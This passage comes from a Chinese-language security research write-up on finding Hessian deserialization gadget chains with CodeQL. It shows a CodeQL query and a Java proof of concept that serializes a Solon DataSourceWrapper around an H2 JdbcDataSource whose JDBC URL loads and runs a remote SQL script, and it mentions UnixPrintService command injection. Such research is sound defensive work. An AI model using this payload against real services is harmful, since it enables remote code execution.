        and not this.getDeclaringType().getQualifiedName().indexOf("jdbcx")>=0
    }
}
class JDBCMethod extends Method{
    JDBCMethod(){
        this.hasName("getConnection")
        and (this.getDeclaringType().getASupertype*().hasQualifiedName("java.sql","DriverManager")
            or this.getDeclaringType().getASupertype*().hasQualifiedName("javax.sql","DataSource")
            ) 
        and not this.getDeclaringType().getQualifiedName().indexOf("jdbcx")>=0
    
    }
}
query predicate edges(Method a,Method b){
    a.polyCalls(b)
}
from GetterMethod source,JDBCMethod sink
where edges(source, sink)
select source, source, sink, "$@ $@ to $@ $@" ,
source.getDeclaringType(),source.getDeclaringType().getName(),
source,source.getName(),
sink.getDeclaringType(),sink.getDeclaringType().getName(),
sink,sink.getName()
```

我们接着筛选



## DataSourceWrapper

这就是个包装类 本质上是触发任意实现DataSource的接口的`getConnection()`方法  


```
package com.example.demo;

import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import org.h2.jdbcx.JdbcConnectionPool;
import org.h2.jdbcx.JdbcDataSource;
import org.noear.solon.data.datasource.DataSourceWrapper;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.sql.SQLException;
import java.util.Base64;

public class poc3 {
    public static void main(String[] args) throws SQLException, IOException {
        JdbcDataSource dataSource = new JdbcDataSource();
        dataSource.setURL("jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'");
        DataSourceWrapper dataSourceWrapper = new DataSourceWrapper(dataSource);
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("ds", dataSourceWrapper);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessianOutput = new Hessian2Output(byteArrayOutputStream);
        hessianOutput.setSerializerFactory(new SerializerFactory());
        hessianOutput.getSerializerFactory().setAllowNonSerializable(true);
        hessianOutput.writeObject(jsonObject);
        hessianOutput.flush();

        byte[] data = byteArrayOutputStream.toByteArray();
        Base64.Encoder encoder = Base64.getEncoder();
        String payload = encoder.encodeToString(data);
        System.out.println(payload);
    }
}

```

是可以包装 `UnpooledDataSource`/`JdbcDataSource`但是和直接触发`UnpooledDataSource`/`JdbcDataSource`的`getConnection`没有本质区别  


## DataSourceProxy

和DataSourceWrapper效果一致

# 尝试触发UnixPrintService的getter实现执行任意命令

参考:<https://y4tacker.github.io/2022/03/21/year/2022/3/2022%E8%99%8E%E7%AC%A6CTF-Java%E9%83%A8%E5%88%86/>  
作为JDK低版本 肯定优先考虑一下`UnixPrintService`触发getter实现命令注入  
  
但是还是在sofa-hession黑名单中 不考虑

# 总结

这里我们尝试通过编写CodeQL实现快速寻找到我们所期望的hession调用链,对于黑名单没有覆盖的类进行了一个简单的探索
